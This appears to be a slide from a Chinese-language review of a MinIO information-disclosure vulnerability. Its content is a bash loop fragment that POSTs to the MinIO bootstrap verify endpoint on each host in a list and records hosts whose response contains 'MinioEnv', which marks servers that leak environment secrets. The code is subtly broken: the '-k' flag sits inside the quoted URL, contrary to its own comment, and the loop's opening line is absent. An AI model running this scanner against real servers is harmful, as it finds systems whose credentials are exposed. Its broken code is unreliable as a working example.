

过程复盘--MiniO信息泄露漏洞
 response=$(curl -s -XPOST "$line/minio/bootstrap/v1/verify -k" --connect-timeout 3)	#修改一下 这里加了-k 忽略对 SSL 证书验证
  if echo "$response" | grep -q "MinioEnv"; then		#匹配关键词
    printf "${GREEN}[!] ${line}${NC}：is Vulnerable！！！\n"
    echo "$line" >> result.txt
  else
    printf "[+] (${count}/$(wc -l < MinIO.txt)) Scanning: ${line}\n"
  fi
done < MinIO.txt